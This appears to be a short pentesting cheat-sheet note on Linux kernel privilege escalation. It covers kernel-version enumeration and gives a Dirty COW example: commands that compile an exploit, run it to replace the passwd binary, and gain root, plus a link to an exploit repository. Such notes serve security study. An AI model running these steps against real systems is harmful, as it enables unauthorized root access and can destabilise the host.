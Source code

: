 -- -
Kernel level exploit, exploits against the OS and it's logic. 
#### Enum
You are looking for kernel version on the target system to see what you can exploit. 
![[Dark Arts/Privesc/Linux/Enumeration/System#^c36ae3]]
#### Exploitation
This section is more specific to the exploit you find. Each will be different and its own way of exploiting it. So mileage varies depending on the vulnerability. Usually with kernel level exploits, they will be written in C and will require you to compile the exploit and run it on the target. This is also liable to break the system or make it unstable so probably something you note but don't use unless you have no other option. 
##### Dirty Cow Example
```bash
# Get the exploit C code from searchsploit, exploitdb, google, etc
gcc -pthread <dirty cow src>.c -o <outputfile>
gcc pthread c0w.c -o cow
./cow
# Should say: Backing up /usr/bin/passwd to /tmp/bak
# so, it's replacing the passwd binary with a privesc, so run passwd
passwd

# any you should now have root.
```
#### Resources
- https://github.com/lucyoa/kernel-exploits